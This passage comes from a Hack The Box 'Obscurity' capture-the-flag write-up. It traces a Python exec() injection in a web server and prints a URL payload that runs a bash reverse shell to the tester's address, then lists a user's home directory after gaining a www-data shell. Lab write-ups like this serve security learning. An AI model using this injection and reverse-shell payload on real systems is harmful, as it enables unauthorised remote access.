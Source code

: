 ![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-obscurity/6.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-obscurity/6.png)

I downloaded that script to my machine. And while checking the script I found `exec()`.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-obscurity/7.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-obscurity/7.png)

> exec supports the dynamic execution of Python code. The first expression should evaluate to either a string, an open file object, or a code object. If it is a string, the string is parsed as a suite of Python statements which is then executed (unless a syntax error occurs). If it is an open file, the file is parsed until EOF and executed. If it is a code object, it is simply executed.

> For more Details: [https://www.geeksforgeeks.org/exec-in-python/https://www.geeksforgeeks.org/exec-in-python/](https://www.geeksforgeeks.org/exec-in-python/https://www.geeksforgeeks.org/exec-in-python/)

So this is where we need to inject our payload, we need to escape the format first.
By using `;` before our payload that will end `exec()` and start executes our payload.
I googled about how to exploit exec and found this!!

>[https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1](https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1)

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-obscurity/8.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-obscurity/8.png)

Using the article I created mine, At first, I tried without `bash -c` but that didn't work but when I tried this, it worked.
I send `'` as the string which it is expecting from us.

```py
`10.10.10.168:8080/';__import__("os").system("bash -c 'bash -i >& /dev/tcp/10.10.14.31/1234 0>&1'")%23`
```

## Shell as www-data

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-obscurity/9.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-obscurity/9.png)

We got the shell!!

There is a user `robert` while checking his home directory. Found some files.

```bash
www-data@obscure:/home/robert$ ls
ls
BetterSSH
check.txt
out.txt
passwordreminder.txt
SuperSecureCrypt.py
user.txt
```

## Analysing the Python Script
